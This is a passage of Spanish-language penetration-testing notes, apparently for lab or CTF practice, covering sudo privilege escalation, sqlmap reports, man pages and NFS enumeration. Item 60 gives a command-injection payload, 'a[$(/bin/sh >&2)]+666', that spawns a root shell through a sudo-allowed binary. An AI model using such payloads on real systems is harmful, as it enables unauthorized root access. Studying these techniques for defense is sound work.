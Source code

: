 ## 60.- Siempre que tengamos un binario y no esté en gtfobinds lo ejecutamos para ver que hace

ejemplo :

ejecutando sudo -l

(ALL) NOPASSWD: /bin/cube

probamos:

sudo /bin/cube

y supongamos que nos permita intruducir numeros:

introducimos:

a[$(/bin/sh >&2)]+666

y listo somos root

-------------------------------------------------------------------------------

## 61.- Carpeta donde se almacena los reportes de sqlmap

-------------------------------------------------------------------------------

## 62.- Si no conosco que hace un binario puedo ejecutar el comando

man nombre_binario

por ejemplo no conosco que hace el binario /usr/bin/multitail

ejecuto man /usr/bin/multitail

si veo opciones como -l para ejecutar comandos veo la forma de escalar privilegios - revisar el bloc de escalar privilegios en la parte de multitail en sudo -l

-------------------------------------------------------------------------------

## 63.- si tenemos la opción de subir archivos por NFS podemos montarnos sistema de archivos en nuestro kali y subir un archivo.

listar recursos compartidos:

showmount -e 192.168.42.137

ejemplo:

showmount -e 192.168.42.137

me salió

Export list for 192.168.42.137:
/var/www/html *
